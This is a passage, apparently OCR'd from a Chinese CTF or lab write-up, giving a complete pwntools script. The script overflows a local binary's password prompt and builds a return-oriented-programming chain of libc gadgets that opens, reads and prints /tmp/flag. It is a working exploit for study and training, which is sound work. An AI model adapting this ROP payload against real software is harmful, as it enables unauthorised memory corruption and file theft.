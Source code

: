 ```test(a, b, c)```
   6. 10
   7. write函数地址

**最后从标准输入中写入/tmp/flag字符串**

### 2.1.3 完整代码

pwn64.py

```python
from pwn import *
io = process('./a64.out')

elf = ELF('./a64.out')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# libc"s base_addr
base_addr = 0x7ffff7dcb000	
# func : rdi-rsi-rdx-rcx-r8-r9
poprdi_ret = base_addr + 0x27725
poprsi_ret = base_addr + 0x28ed9
poprdx_ret = base_addr + 0xfdd4d
# # write the flag to the writable_addr
writable_addr = 0x404700
# string_addr = "/tmp/flag"s
string_addr = 0x7fffffffde00
# fileName
fileName = b'/tmp/flag\0' 
payload = fileName + cyclic(72 - len(fileName))
# open the /tmp/flag
# open("/tmp/flag", 0)
# rdi = string_addr rsi = 0
payload += p64(poprdi_ret)
payload += p64(string_addr)
payload += p64(poprsi_ret)
payload += p64(0)
payload += p64(base_addr + libc.symbols['open'])
# read the flag
# read(3, writable_addr, 10)
# rdi = 3 rsi = writable_addr rdx = 10
payload += p64(poprdi_ret)
payload += p64(3)
payload += p64(poprsi_ret)
payload += p64(writable_addr)
payload += p64(poprdx_ret)
payload += p64(10)
payload += p64(base_addr + libc.symbols['read'])
# write the flag
# write(1, writable_addr, 10)
# rdi = 1 rsi = writable_addr rdx = 10
payload += p64(poprdi_ret)
payload += p64(1)
payload += p64(poprsi_ret)
payload += p64(writable_addr)
payload += p64(poprdx_ret)
payload += p64(10)
payload += p64(base_addr + libc.symbols['write'])

# gdb.attach(io, "b *(start+146)") # we can raise a debug interface here
io.sendafter(b'Password:', payload)
io.interactive()

```
